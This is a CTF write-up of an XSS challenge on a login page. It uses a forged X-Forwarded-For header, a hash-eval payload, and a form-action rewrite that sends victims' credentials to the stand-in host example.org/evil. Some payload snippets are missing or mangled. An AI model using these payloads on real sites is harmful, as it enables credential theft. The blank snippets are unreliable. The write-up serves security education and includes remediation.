



# XMCO LeHack 2019 challenge

## Introduction

This challenge is a challenge presented by XMCO at the LeHack security
conference on 2019-07-06.

The challenge consists of a single web page. The web page contains a regular
login form. The instruction gives a hint: the vulnerability to find is an XSS
vulnerability.


## Reconnaissance

The page is located at http://www.wannatry.fr/ ; it contains a single login
form.

The index page redirects the user automatically to `/?token=[...]`
The token is a base64 of 48 random-looking bytes:
```
$ base64 -d | xxd
aLMkkv9GUVzFWVYPKPrEDZWRdJPc8AWFq5EXBpYJ9uXjiJ7ZDMFZh4uc3pZsAg1T
00000000: 68 b3 24 92 ff 46 51 5c c5 59 56 0f 28 fa c4 0d  h.$..FQ\.YV.(...
00000010: 95 91 74 93 dc f0 05 85 ab 91 17 06 96 09 f6 e5  ..t.............
00000020: e3 88 9e d9 0c c1 59 87 8b 9c de 96 6c 02 0d 53  ......Y.....l..S
```

The token appears twice in the page:
```
$ curl -s 'http://www.wannatry.fr/?token=SENTINEL' | fgrep SENTINEL
    <link rel="stylesheet" href="/static/main.css?token=SENTINEL" />
    <script src="/static/main.js?token=SENTINEL"></script>
```

Unfortunately, most "interesting characters" are filtered out. The single quote
character is not filtered, but cannot be used for an injection in this context:
```
$ curl -s 'http://www.wannatry.fr/?token=SENTINEL"></'\' | fgrep SENTINEL 
    <link rel="stylesheet" href="/static/main.css?token=SENTINEL&quot;&gt;&lt;/'" />
    <script src="/static/main.js?token=SENTINEL&quot;&gt;&lt;/'"></script>
```


The following mention appears on the page's footer: `Your IP Address (NULL) has
been logged!`. This statements leads to believe that the IP address may be used
as a vector for a reflective XSS.

By using the `X-Forwarded-For` HTTP header, it is possible to make the web
application store a different IP address. It is worth noting that the IP address
displayed is always the **previous** one: 

```
$ curl -s 'http://www.wannatry.fr/?token=foobar' --header 'X-Forwarded-For: SENTINEL' | fgrep SENTINEL
(no reply)

$ curl -s 'http://www.wannatry.fr/?token=foobar' --header 'X-Forwarded-For: SENTINEL' | fgrep SENTINEL
                        Your IP Address (SENTINEL) has been logged!
```

The IP address is reset when the token is changed.

The value is truncated up to the first whitespace character. This value is
limited to 9 characters which is just enough for `<script>/`.

## Vulnerability

As mentioned earlier, the `token` variable is not vulnerable as it is properly
filtered out. The IP address is unfiltered, but is limited in size.

The token is written once after the IP address:
```
                        Your IP Address (<script>/) has been logged!
                    </p>
                </div>
                <div class="col l4 offset-l2 s12">
                    <h5 class="black-text">Links</h5>
                    <ul>
                        <li><a class="black-text text-lighten-3" href="https://www.xmco.fr/">XMCO</a></li>
                    </ul>
                </div>
            </div>
        </div>
        <div class="footer-copyright">
            <div class="container">
                <a class="black-text text-lighten-4 right" href="#!"></a>
            </div>
        </div>
    </footer>
    <!--JavaScript at end of body for optimized loading-->
    <script src="/static/main.js?token=foobar"></script>
```

9 characters is small enough to put ``
```
                        Your IP Address (
                </div>
                <div class="col l4 offset-l2 s12">
                    <h5 class="black-text">Links</h5>
                    <ul>
                        <li><a class="black-text text-lighten-3" href="https://www.xmco.fr/">XMCO</a></li>
                    </ul>
                </div>
            </div>
        </div>
        <div class="footer-copyright">
            <div class="container">
                <a class="black-text text-lighten-4 right" href="#!"></a>
            </div>
        </div>
    </footer>
    <!--JavaScript at end of body for optimized loading-->
    <script src="/static/main.js?token=' onerror='alert(1)' />" />"></script>
```

is essentially interpreted as: 
```
Your IP Address (" />"></script>
```

This proof of concept shows an alert box.




## Payload

While `alert(1)` is a common way of proving the presence of XSS vulnerabilities,
it does not show the full impact of the said vulnerability.

It is possible to make replace the payload with a snippet of code that evaluates
an unfiltered script.

A good way to place the script is in the URL's hash. This value is not limited
in length, and is not filtered, because this value is never sent to the server.

The following script session shows how to leverage the URL's hash:
```
>>> document.location.hash
"#console.log(%22Hello%20from%20the%20hash!%22)"

>>> document.location.hash.substr(1)
"console.log(%22Hello%20from%20the%20hash!%22)"

>>> unescape(document.location.hash.substr(1))
"console.log(\"Hello from the hash!\")"

>>> eval(unescape(document.location.hash.substr(1)))
Hello from the hash! debugger eval code line 1 > eval:1:9
undefined
```

In order to leverage this payload, the following inputs can be used:
**X-Forwarded-For**: ``


## Attack scenario

The XSS being a client-side vulnerability, it is required to make the victim
send a request triggering the vulnerability.

It is not possible to make a victim browser submit a request with a custom
header (such as `X-Forwarded-For`). The vulnerability appears unexploitable at
first glance.

The IP address displayed shows the IP address of the **previous** request. This
means an attacker is able to *prepare* a token by sending a first request with
the headers used previously.

```
$ curl "http://www.wannatry.fr/?token=' src='' onerror='eval(unescape(document.location.hash.substr(1)))' />" --header "X-Forwarded-For: <img/x='"
[...]
```

The XSS will be triggered the next time somebody accesses the website with the
same token, An attacker could trick a victim to go to a shortened link that
redirects to the website with the malicious payload.

An attacker could use the XSS to change the form's `action`. This will instruct
the victim's browser to submit the form to a server they control. They will be
able to retrieve the victim's credentials.

```
https://[...]#document.getElementById('login-form').action = "https://example.org/evil"
```




## Remediation

This vulnerability can be patched by using the PHP functions `long2ip` and
`ip2long` to ensure the IP address is a valid IPv4 address.
Ideally, the application should not trust the `X-Forwarded-For` header from any
clients. This header should only be effective if the client is a known
reverse-proxy.
